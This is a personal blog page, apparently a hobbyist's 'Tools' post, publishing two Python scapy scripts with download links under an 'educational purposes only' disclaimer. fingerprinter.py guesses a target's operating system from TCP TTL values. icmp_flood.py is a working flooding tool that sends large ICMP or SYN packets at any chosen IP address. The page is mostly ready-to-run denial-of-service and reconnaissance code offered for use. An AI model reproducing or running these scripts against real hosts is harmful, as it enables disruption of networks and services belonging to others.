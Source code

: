 ```yaml
---
title: Tools
date: 2024-01-01 14:00:00 +0300
categories: [scripts]
tag: [scripts,python]
---
```


# Disclamer: All the scripts i write are for educational purposes only.

### fingerprinter.py 
### a python script that uses uses ttl from tcp packet to detrmine the os of a machine
### ![image](https://h0t0.github.io/assets/img/ttl.png)
### Example: `python3 fingerprinter.py -H IP -sP 5555 -dP 21`

```python
from scapy.all import *
import argparse


def argument_parser():
    """Allow user to specify target host and port."""
    parser = argparse.ArgumentParser(description="Basic OS detection tool.")
    parser.add_argument("-H", "--host", help="Host IP address")
    parser.add_argument("-sP", "--sendport",help="sender port'")
    parser.add_argument("-dP", "--destport",help="destination port'")

    var_args = vars(parser.parse_args())  
    return var_args

def fingerprint(target: str, sport0: int, dport0: int):
	seq=100
	ip = IP(dst=target)
	tcp= TCP(sport= sport0, dport= dport0, flags="S", seq= seq)

	packet= ip/tcp
	synack_packet = sr1(packet ,verbose=0)
	#synack_packet.show()
	if synack_packet.ttl == 128:
		return "Windows"
	elif synack_packet.ttl == 64:
		return "Linux"

	
'''
ip= str(input("Enter the target ip: "))
sendp= int(input("Enter Sending Port: "))
destp= int(input("Enter destination Port: "))
'''

if __name__ == "__main__":
	try:
		user_args = argument_parser()
		host = str(user_args["host"])
		sport = int(user_args["sendport"])
		dport = int(user_args["destport"])
		print(f"The Host {host} OS is " + fingerprint(host, sport, dport))
	except AttributeError:
		print("Error. Please provide the command-line arguments before running.")
```
#### **download the script:** [fingerprinter.py]

[fingerprinter.py]:{{https://github.com/h0t0/h0t0.github.io}}/assets/files/fingerprinter.py

--------
### icmp_flood.py
### a simple icmp/syn flooding tool using scapy
### Example: `python3 icmp_flood.py -H IP -c 100`

```python
from scapy.all import *
import argparse


def argument_parser():
    """Allow user to specify target host and port."""
    parser = argparse.ArgumentParser(description="Basic SYN , ICMP flood script.")
    parser.add_argument("-H", "--host", help="Host IP address")
    parser.add_argument("-c", "--cycle", help="select how many times the packet is sent")

    var_args = vars(parser.parse_args())  # Convert argument namespace to dictionary
    print(var_args)
    return var_args


def icmp_flood(target: str , cycle: int, payload: int = 65000):
	ip = IP(dst=target)
	icmp = ICMP()
	raw = Raw(b"X" * payload)
	packet = ip / icmp / raw
	send(packet, count=cycle, verbose=0)
	print('send_ping(): Sent ' + str(cycle) + ' pings of ' + str(payload) + ' size to ' + target)


def syn_flood(target: str, cycle: int, dport: int,  payload: int = 65000):
	ip = IP(dst=target)
	tcp = TCP(dport= dport, flags= "S")
	raw = Raw(b"X" * payload)
	packet = ip / tcp / raw
	send(packet, count=cycle, verbose=0)
	print('send_syn(): Sent ' + str(cycle) + ' packets of ' + str(payload) + ' size to ' + target)


if __name__ == "__main__":
	try:
		user_args = argument_parser()
		host = str(user_args["host"])
		cycle = int(user_args["cycle"])

		flood_type = input("ICMP or SYN flood? ")

		if flood_type.lower() == "icmp": 
			icmp_flood(host, cycle)
		
		elif flood_type.lower() == "syn":
			dport= int(input("Enter Destination port: "))
			syn_flood(host, cycle, dport)
	
	except AttributeError:
		print("Error. Please provide the command-line arguments before running.")
```
#### **download the script** [icmp_flood.py]

[icmp_flood.py]:{{https://github.com/h0t0/h0t0.github.io}}/assets/files/icmp_flood.py
